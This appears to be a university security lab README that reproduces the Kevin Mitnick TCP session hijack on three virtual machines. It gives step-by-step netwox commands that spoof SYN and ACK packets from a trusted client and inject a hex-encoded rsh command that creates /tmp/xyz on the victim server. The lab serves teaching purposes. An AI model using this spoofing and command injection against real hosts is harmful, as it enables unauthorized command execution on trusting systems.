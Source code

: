 ## The Kevin Mitnick Attack 

**WARNING**: This is one of the most complicated labs, if you understand this lab and know what you are doing, you may be able to finish this lab in 20 minutes, if you don't really understand this lab and don't really know what you are doing, you may spend hours and still don't succeed. Be very very careful, make sure the command is correct, before you press enter to run the command, is the key to the success of this lab.

### Requirements

In this lab, we will demonstrate the Kevin Mitnick attack - a special case of the TCP session hijack attack. Instead of hijacking an existing TCP connection between victims A and B, the Mitnick attack creates a TCP connection between A and B first on their behalf, and then naturally hijacks the connection. Specifically, Kevin Mitnick created and hijacked rsh connections. In this lab, the attacker's goal is to create a file **/tmp/xyz** on the victim server machine.

### Setup

3 Linux VMs. VM1 as the victim client; VM2 as the victim server; VM3 as the attacker. The 3 VMs reside in the same network - in the original Kevin Mitnick attack, the attacker's machine was not in the same network. Back then TCP sequence numbers were easily predictable, today it is not. To simulate the attack and simplify our task, we assume we still know the sequence numbers - we will, in the lab, obtain the sequence numbers from wireshark. We will then use "netwox 40" to perform packet spoofing. In the remaining part of this README, we assume the victim client's IP address is 172.16.77.128, and the victim server's IP address is 172.16.77.129.

Background knowledge: In rsh, two TCP connections are needed. One for normal communication, the other for sending error messages. In the first connection, the client port must be 1023, and the server port must be 514. In the second connection, the server port must be 1023, but the client port can be anything - in this lab, we will choose 9090.

### Preparation steps: 

step 1. installing rsh on client, server, and the attacker's machine. Run the following two commands on all 3 VMs:

```console
# sudo apt-get install rsh-redone-client
# sudo apt-get install rsh-redone-server
```

step 2. configure rsh on the victim server machine.

```console
$ touch .rhosts
$ echo [victim client’s IP address] > .rhosts (replace "victim client's IP address" with the actual IP address)
$ chmod 644 .rhosts
```

These commands look like this:
![alt text](lab-mitnick-rsh-config.png "rsh works")

If the above configuration is correct, you should be able to run the follow command on the victim client machine, and it will show you the current date information.

```console
# rsh [victim server’s IP] date
```

Like this:
![alt text](lab-mitnick-rsh-good.png "rsh works")

As a comparison, if you run the same command from the attacker's machine, you will get an error like this:
![alt text](lab-mitnick-rsh-bad.png "rsh doesn't work")

step 3. simulating the syn flooding attack.

3.1: on the victim server, run:

```console
# sudo arp -s [victim client’s IP] [victim client’s MAC]
```

This step is needed so that the server remembers the MAC address of the client, which is needed for the server to send packets to the client.

This screenshot shows the command and how to find the victim client's MAC address:
![alt text](lab-mitnick-arp.png "setting up arp cache")

3.2: shutdown the victim client VM - we do so to simulate the situation when the client is under serious syn flooding attack and can't respond. **Explanation**: why do we want the server to remember the MAC address of the client? Because computers in the same network use MAC addresses, instead of IP addresses, to communicate. And once we shutdown the victim client, if the server doesn't know the victim client's MAC address, the server simply won't send any packet to the client; but our attack won't be successful if the server doesn't send any packet to the client.

This screenshot shows the command to shutdown the victim client VM:
![alt text](lab-mitnick-shutdown.png "shutting down victim client VM")

step 4. in the attacking steps (next section), right after step 6.1, we need to run step 6.2 as soon as possible, otherwise the server will RESET the 1st TCP connection; similarly, right after step 6.3, we need to run step 7.1 as soon as possible, otherwise the server will RESET the 2nd TCP connection. Therefore, writing a sniffing-and-spoofing script would be the better way to perform this attack.

Alternatively, we can run these two commands on the server so that it does not RESET that fast.

```console
# sudo sysctl -w net.ipv4.tcp_syn_retries=50
# sudo sysctl -w net.ipv4.tcp_synack_retries=50
```

This screenshot shows these two commands:
![alt text](lab-mitnick-retries.png "changing retry limits")

**Explanation**: these two commands are saying, do not reset the tcp connection, unless one party of the connection has tried *syn* more than 50 times; do not reset the tcp connection, unless one party of the connection has tried *syn-ack* more than 50 times.

step 5. turn on wireshark on the attacker's VM and start capturing. also, sanity check - make sure there is no such a file called **/tmp/xyz** on the server machine - as our ultimate goal in this lab is to create such a file.

This screenshot shows, at this moment, there is no such a file called **/tmp/xyz** on the **server** machine.
![alt text](lab-mitnick-sanity-check.png "sanity check")

### Attacking steps:

All the attacking steps are performed on the attacker's machine. **WARNING**: any moment during the attacking steps, you notice a RESET packet in wireshark, you know you are on the wrong track, and you need to reboot the victim server VM and go back to step 3 - redo step 3, step 4, and then you can continue from step 6.

step 6. create the first TCP connection. 

step 6.1: On the attacker's VM, send a spoofed SYN packet to the victim server.

```console
# sudo netwox 40 --tcp-syn --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514
```

This screenshot shows the command:
![alt text](lab-mitnick-packet1.png "first packet")

step 6.2: right after the above command, switch to wireshark, and we need to find the **sequence number** of this SYN packet (goes from the victim client to the victim server), let's say it's x. Then in wireshark, identify the SYN-ACK packet coming from the victim server to the victim client and find out its **sequence number**, let's say it's y. Now we send the ACK packet to complete the TCP 3-way handshake.

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1
```

This screenshot shows the command:
![alt text](lab-mitnick-packet2.png "second packet")

This screenshot shows x is 2247827088, and thus x+1 is 2247827089.
![alt text](lab-mitnick-first-syn.png "first syn packet")

This screenshot shows y is 734062308, and thus y+1 is 734062309.
![alt text](lab-mitnick-first-syn-ack.png "first syn ack packet")

step 6.3: send one ACK packet to the server. This packet carries the rsh command we want to run:

```console
# sudo netwox 40 --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00" 
```

This screenshot shows the command (which sends the packet):
![alt text](lab-mitnick-packet3.png "third packet")

note: step 6.2 and step 6.3 are the same command, except that --tcp-data part.

**Explanation**: why the tcp data is "393039300073656564007365656400746f756368202f746d702f78797a00"? Because in netwox 40, --tcp-data specifies the data you want to transfer, and in our case, we want to transfer an rsh command "touch /tmp/xyz", which creates the file **/tmp/xyz**. In rsh, its data's structure is:

[port number]\x00[user_id_client]\x00[user_id_server]\x00[your command]\x00

thus, in order to inject a command "touch /tmp/xyz", the data we should inject is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", and then we need to convert it into hex numbers:

```console
$ python
>>> "9090\x00seed\x00seed\x00touch /tmp/xyz\x00".encode("hex")
'393039300073656564007365656400746f756368202f746d702f78797a00'
```

step 7. create the second TCP connection. After the above ACK packet, the server would automatically send a SYN packet to the client so as to establish the 2nd TCP connection. We just need to respond a fake SYN-ACK packet. Let's say the sequence number of this SYN packet is z, then in our SYN-ACK packet, the ack num needs to be z+1, the sequence number can be anything.

step 7.1: 

```console
# sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 172.16.77.128 --ip4-dst 172.16.77.129 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1
```

This screenshot shows the command:
![alt text](lab-mitnick-packet4.png "fourth packet")

This screenshot shows that z is 703071262, and thus z+1 is 703071263.
![alt text](lab-mitnick-second-syn.png "second syn packet")

### Verification steps:

step 8. on the victim's server machine, see if **/tmp/xyz** is created.

![alt text](lab-mitnick-success.png "lab success")

The above screenshot shows the file **/tmp/xyz** is now existing - this indicates that the attack is successful, and this concludes the lab.
